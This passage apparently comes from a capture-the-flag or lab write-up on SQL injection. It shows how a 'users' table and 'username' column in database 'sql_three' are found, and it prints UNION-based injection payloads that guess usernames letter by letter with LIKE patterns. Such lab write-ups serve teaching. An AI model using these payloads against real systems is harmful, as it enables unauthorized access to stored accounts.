 ![column name](images/23-column-name-found.png)<br/>
I've found a column called `username` under the `users` table and database `sql_three`<br/>

    admin123' UNION SELECT 1,2,3 from users where username like 'a%
![username start](images/24-username-start-point.png)<br/>
As you can see username character start with `a`

    admin123' UNION SELECT 1,2,3 from users where username like 'admin%